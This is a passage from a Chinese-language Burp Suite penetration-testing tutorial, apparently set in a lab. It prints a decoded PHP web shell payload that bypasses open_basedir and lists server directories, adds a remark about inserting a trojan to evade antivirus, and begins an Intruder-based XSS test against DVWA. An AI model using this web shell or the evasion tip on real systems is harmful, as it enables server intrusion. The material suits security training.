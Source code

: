 ![粘贴到编码工具中用 URL 解码](./../../../../images/Burp%20Suite/%E7%B2%98%E8%B4%B4%E5%88%B0%E7%BC%96%E7%A0%81%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%94%A8%20URL%20%E8%A7%A3%E7%A0%81.png)

复制解码后的文本到文本编辑器查看

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.70f94b11fb2c";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "4435"."fedf3";echo @asenc($output);echo "aac1b5"."3e6fee";}ob_start();try{$D=base64_decode(substr($_POST["v8255f661bbec7"],2));$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D.$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="	".$T."	".@filesize($P)."	".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&v8255f661bbec7=CsL3Zhci93d3cvaHRtbC91cGxvYWQv
```

> 可以在原有代码的基础上加入木马，做免杀。

## 6.9 自动化测试 XSS 漏洞

burp 开启拦截，提交任意参数，发送请求数据包到 intruder 中

> http://centos7-6.local/dvwa/vulnerabilities/xss_r/

清除 payload 位置，选中需要注入的位置添加 payload 位置

```
§123§
```

上传 xss 字典到桌面

> kali 的字典在
>
>  /usr/share/wordlists/wfuzz/Injections/XSS.txt

payload 类型选择为指定文件

![payload 类型选择为指定文件](./../../../../images/Burp%20Suite/Payload%20%E7%B1%BB%E5%9E%8B%E9%80%89%E6%8B%A9%E4%B8%BA%E6%8C%87%E5%AE%9A%E6%96%87%E4%BB%B6.png)

在 payload 中加载字典
